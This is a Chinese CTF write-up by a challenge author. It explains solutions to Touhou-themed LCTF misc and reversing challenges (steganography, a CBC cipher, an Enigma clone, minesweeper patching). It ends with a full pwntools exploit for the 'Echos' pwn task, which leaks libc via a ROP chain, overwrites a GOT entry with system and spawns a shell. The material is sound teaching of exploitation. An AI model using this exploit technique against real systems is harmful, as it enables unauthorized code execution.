

# Satori's Challenge

## 作者的自述

为什么会有这样一组题目呢？只是因为出题人非常闲而已。这次一共准备了四道题目，完整的复刻了游戏"东方地灵殿"中四面BOSS古明地觉(小五)的符卡流程。然而出题人的开发能力实在是太差了，最后差一点没法完整收场，虽然勉强完成了这组题目，但是也存在非常多的非预期，让题目难度骤降...

"想起"这个前缀是有独特意义的，除了第一道Misc之外，剩下的三道逆向都是我在之前LCTF出过的题目。Qt和壶中的大银河对应的是LCTF2016的两道逆向，而Lunatic-Game对应的则是LCTF2017的"滑稽博士"。用小五的捏他来出题一方面是题目数量不高(4道)，另一方面也有点怀旧的想法，很大概率这是我最后一次在LCTF出题了...

这一次的出题思路非常的简单：还原一点真实的东西。

作为一个学渣CTFer，从CTF中学到点东西是我每次的想法，然而事与愿违，每次面对比赛的逆向题目，我在做的事情是"猜测出题人的谜题是什么"。这种感觉就如同高考语文一样，实在是让人难以理解...虽然还是从中学到了很多"类似混淆的技术"，但是总是有种自娱自乐的感觉。

所以这一次的题目并没有专注于设计谜题，反而是将一切都写的明明白白，需要做的事情就是纯粹的逆向："我知道这是什么，我要做的是通过逆向来找出里面的关键数据"，大概这样的想法。

至于题目使用的语言，我选择的是C++17。从模板变参到智能指针，内联Vector到Copy-Constructor，这次用尽了我一年的开发力和C++知识来完成了我的题目...这么做也没有什么具体原因，仅仅是自己逆AOSP库的时候感觉很有趣，也很真实。

最后，这组题目难度其实非常简单，没能让Top3战队的大佬感觉到有趣实在是抱歉了...

从此开始、一千里
↓

<br />
<br />
<br />
<br />

## [Misc] 想起「恐怖的回忆」

题目给了一份Haskell源代码(可以用[stack][stack-url]进行编译)和编译好的PE文件，一张输入图片和输出图片。阅读源代码，即可知道这份程序是如何将Flag文本隐写到图片之中的。

Haskell逻辑其实并不难，大部分和Lisp很像，唯一的坑点是理解State单子和Writer单子...如果真的想认真读的话。

代码逻辑：

1. 使用0x05将Input对齐到32位
2. 将对齐后的数据分组，32位一组，做分组加密
3. 秘钥Key循环对齐到32位，大概是`(Key * N)[0:32]`这样
3. 分组加密模式为OFB
    * 加密盒的表达式为`IV' = Key Xor IV Xor 0x39 Xor 0xFF`
    * IV和Msg的表达式为`output = Message Xor IV'`
4. 将分组加密后的数据隐写到图片中，隐写方式为LSB，通道合并方式为Xor，使用R通道和G通道
5. 将output图片写入磁盘

数据分组和OFB加密的过程使用了Writer单子，加密盒的部分使用了State单子...但是我没有去掉函数名称，所以就算不认真读也能猜出来吧。

解法(check脚本在源码目录下)：

1. 使用Setgsolve将两张图片Xor
2. 再次使用Setgsolve提取Xor后图片的R，G最低位
3. 使用Key和初始IV进行OFB模式解密
4. 得到一长串文本，Flag在其中一行。

PS：这段文本是Brainpower的歌词...


## [Re] 想起「湖中的大银河 ～ Lunatic」

这是一道坑逼题，所以文件名称是maze(迷宫)。坑点在Copy-Constructor(拷贝构造函数)中。

程序的流程非常简单，CBC模式的分组加密，但是在这个流程中会对Message和Key分别进行一次拷贝，触发拷贝构造函数。在拷贝构造函数中，除了进行必要的数据复制外，还额外的执行了一次`this->map(X)`操作。

具体的流程可以查看题目源代码，以及源码目录下的Check.py文件，完整的叙述了反向解密的流程。

除了坑点外，还要处理C++的继承和只能指针。但是：分组加密的加密盒是XOR表达式，你可以直接逐位爆破...这是最快的方式，也是非预期解法。出题人决定好好复习密码课本...

## [Re] 想起「Qt」

如同题目描述，这个程序复现的是Enigma密码机。对信号槽的复现可以在`signal.cpp`中找到，我主要参考了boost库的any容器，其实就是OOP+变参模板而已。但是这套复现没有什么意义，绝大部分的代码都可以直接使用C++17标准库中的`std::mem_fun`来完成...

有两种解法：

1. Enigma是**单字节**替换密码，直接逐位爆破即可获得Flag
2. 对程序逆向，分析出齿轮数目，齿轮关系，反射板映射...然后反向操作得到Flag

这两种解法都是正规解，因为出题人自己觉得验证题目好麻烦。

Pizza的爆破脚本：



其实完全可以把齿轮关系弄的复杂一点的，比如一个齿轮一次带动2个齿轮运行，反射板也会旋转，这样就无法爆破了...然而出题人自己数学不好，并不知道如何保证表达式可逆...

## 想起「 Lunatic Game 」

送分题，C编写的小游戏，是个扫雷。10×10的格子里面有50个雷，基本上没人能完成。

只有Flag的输出使用了Haskell进行混淆，其他的逻辑没有任何约束。

可行的解法：

1. 找到判断胜负的jmp跳转，翻转它，这样GameOVer的时候就可以得到Falg
2. 在OD/x64dbg中进行第一条的操作，会更快速
3. 将`srand(time(NULL))`patch成`srand(int)`，这样雷的位置就是固定的了
4. 任何想得到的解法，因为题目没有任何GetFlag的约束，所以全部作弊方案都是可行的

## Echos

由sw友情赞助，题目本身非常简单

这道题目在部署的时候遇到了非常迷的问题，IO流不会及时刷新，导致**本地可以打通，远程却无法打通**的迷之Bug。

如果有dalao知道为什么会这样，希望能联系我一下。使用xinted+docker部署题目，GitHub上的项目。

贴上Venenof的exp吧：

```python
#!/usr/bin/env python2
#coding=utf8
from pwn import *
#context.log_level = 'debug'
context.terminal = ['gnome-terminal','-x','bash','-c']

local = True

if local:
    cn = process('./echos')
    bin = ELF('./echos',checksec=False)
    libc = ELF('./libc64.so',checksec=False)
else:
    # cn = remote('172.81.214.122', 6666)
    cn = remote('md.tan90.me',12000)
    bin = ELF('./echos',checksec=False)
    libc = ELF('./libc64.so',checksec=False)
    pass


def z(a=''):
    if local:
        gdb.attach(cn,a)
        if a == '':
            raw_input()

prdi=0x00000000004013c3
prsi_r15=0x00000000004013c1
gadget=0x00000000004013bd  # pop rsp ; pop r13 ; pop r14 ; pop r15 ; ret
readn=0x00000000004011A6
pay = '8000\x00\x00\x00\x00' #r12
pay+=p64(0)*3
pay+=p64(gadget) + p64(0x0000000000403440) #rsp

cn.sendlineafter('size',pay)

size=0x3c0
sleep(0.2)
pay = p64(0x00000000004013B6)+p64(0x0000000000401190)
pay = pay.ljust(0x440-size,'a')
pay+=p64(0)*3
pay+=p64(prdi)+p64(bin.got['read'])+p64(bin.plt['puts'])
pay+=p64(prdi)+p64(bin.got['exit'])+p64(prsi_r15)+p64(0x10)*2+p64(readn)
pay+=p64(prdi)+p64(0x4034b8)+p64(bin.plt['exit'])+'/bin/sh\x00'
pay = pay.ljust(0x1000-size,'a')[:-1]
pay+='\n'
cn.send(pay)

cn.recvuntil(':')
cn.recvuntil(':\n')
lbase = u64(cn.recvuntil('\n')[:-1].ljust(8,'\x00'))-libc.sym['read']
success('lbase: '+hex(lbase))
system = libc.sym['system']+lbase
cn.sendline(p64(system))

cn.interactive()
```
